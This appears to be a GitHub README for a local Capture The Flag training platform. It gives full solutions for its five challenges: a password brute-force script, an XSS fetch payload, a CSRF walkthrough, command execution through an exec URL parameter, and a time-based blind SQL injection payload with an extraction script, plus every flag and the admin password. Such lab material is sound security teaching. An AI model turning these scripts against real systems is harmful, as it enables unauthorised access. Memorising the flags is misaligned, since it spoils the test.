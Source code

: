 # 🕵️‍♂️ CTF Challenge Platform

This is a **Capture The Flag (CTF) challenge platform** designed to test participants' cybersecurity skills. The platform consists of various security challenges, including **Brute Force, XSS, CSRF, Command Execution, and Time-Based Blind SQL Injection**.

The challenges simulate real-world vulnerabilities, providing a hands-on learning experience for security enthusiasts.


---

## 🚀 Getting Started

### **Prerequisites**
Make sure you have the following installed:

- [Docker](https://www.docker.com/)
- [Node.js](https://nodejs.org/)

---

## 🔥 **Run the CTF Challenge Locally**

This project uses **Docker Compose** to set up the **application and database**. Follow these steps to get started:

### **Clone the Repository**
```
git clone https://github.com/fatin-farhan/Capture-The-Flag.git
cd Capture-The-Flag
```

### **Start the Application with Docker**
Run the following command to start the containers:

```
docker-compose up --build -d
```
This will:

Launch the CTF application.


### **Access the Application**
Once everything is set up, open your browser and visit:

```
http://localhost:3000
```

### **📖 CTF Challenge Overview**
The platform includes multiple challenges, each simulating a different attack vector:

### **🛠️ Challenge 1: Brute Force**
Use a 100,000 most common passwords list to brute-force the login.
```
import requests
username='admin'
passwordList = []

with open('100000-most-common-passwords.txt', 'r') as inputFile:
    for eachLine in inputFile:
        passwordList.append(eachLine.strip())

for i in range(len(passwordList)):
    password=passwordList[i]
    credentials = {'username': username,'password': password}
    response = requests.post('http://localhost:3000/ctf1/login', data=credentials)
    if response.status_code == 200:
        print(credentials)
        break 
```
Username: admin
Password: forever1
Hint: After login, check the cookies for a Base64-encoded flag.
Flag: Flag{baby_step_hacker}

### **💀 Challenge 2: XSS (Cross-Site Scripting)**

Hidden hint in the source code suggests a POST request to /api/admin/dashboard.

```
<script>
fetch('ctf2/api/admin/dashboard', 
{method:'POST'})
.then(res => res.json())
.then(console.log);
</script>
```

Submitting a POST request through the comment section reveals the flag.
Flag: Flag{XSS_S3RV3R_S1D3_D4T4_L34K}

### **🎯 Challenge 3: CSRF (Cross-Site Request Forgery)**
Embedded iframe on the attacker's website (http://localhost:3000/attacker) loads a vulnerable URL.

Correct URL: http://localhost:3000/ctf3/login

Login and quickly visit http://localhost:3000/attacker to steal the session and retrieve the flag.

Flag: Flag{CPTS580}

### **📡 Challenge 4: Command Execution**
After login, inspect cookies to find a hidden path: /upload.

Upload an image containing a Bash script to gain remote code execution.
```#!/bin/bash```
Base64 encoded URL reveals /the-fourth-flag.

Visiting http://localhost:3000/ctf4/the-fourth-flag?exec=ls lists server files.

Run: http://localhost:3000/ctf4/the-fourth-flag?exec=cat%20flag4.txt to read the flag.

Flag: Flag{You_Are_Cool}

### **⏱️ Challenge 5: Time-Based Blind SQL Injection**
Vulnerable API login endpoint at /api/login.

SQL injection to introduce time delay and extract characters.

Use the payload:

```
'CASE SUBSTR(password,i,1) WHEN CHAR(j) THEN 123=LIKE ("ABCDEFG",UPPER(HEX(RANDOMBLOB(10000000/2)))) ELSE null END --'
Extract full password by iterating through characters.
```
```
import requests
import time
import string
url = "http://localhost:3000/ctf5/api/login"
password = ""
for i in range(1, 19): 
    for char in string.printable:
        payload = f'CASE SUBSTR(password,{i},1) WHEN CHAR({ord(char)}) THEN 123=LIKE("ABCDEFG",UPPER(HEX(RANDOMBLOB(10000000/2)))) ELSE null END --'
        credential = {"username": "admin", "password": payload}
        start = time.time()
        response = requests.post(url,credential)
        elapsed = time.time() - start
        if elapsed > 0.3:  
            password += char
            print(f"Found: {password}")
            break
print(f"Extracted Password: {password}")
```
Flag: Flag{You_Are_A_Pro}

### **🛠️ Development & Debugging**
For development mode (without Docker), run:

```
npm install
npm start
```
This will start the development server at http://localhost:3000.


### **🐳 Docker Management Commands **
✅ Stop Containers
To stop the running containers:

```docker-compose down```
### **✅ Rebuild and Restart Containers**
To rebuild and restart containers after code changes:

```docker-compose up --build -d```
### **✅ View Logs**
To view application logs:

```docker-compose logs -f```
### **✅ Check Running Containers**
To list running containers:

```docker ps```
### **🚀 Deployment***
Build and Run Docker Containers
To deploy the application, build and run the Docker images:

```docker-compose up --build -d```
Stop Running Containers
To stop the running containers:

```docker-compose down```



### **🤝 Contributors**
Md Tasnim Farhan Fatin

Tamim Ahmed

‪Mohammad Fakhruddin Babar





